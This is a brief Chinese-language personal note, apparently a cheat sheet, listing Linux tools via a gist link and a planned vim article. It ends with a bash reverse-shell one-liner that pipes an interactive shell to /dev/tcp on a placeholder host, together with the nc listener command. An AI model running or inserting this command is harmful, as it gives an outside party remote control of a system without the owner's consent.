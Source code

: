 # 再列一堆Linux下贼好用的工具
[https://gist.github.com/ADU-21/170a6d0f8756935cead9361bdea0bc67](https://gist.github.com/ADU-21/170a6d0f8756935cead9361bdea0bc67)

另外： 后面还得写一个关于vim的快捷操作的文章。

# Bash 反弹Shell

```
bash -i >& /dev/tcp/x.x.x.x/2333 0>&1
# 然后在x.x.x.x这台server上执行：
nc -l 2333
```

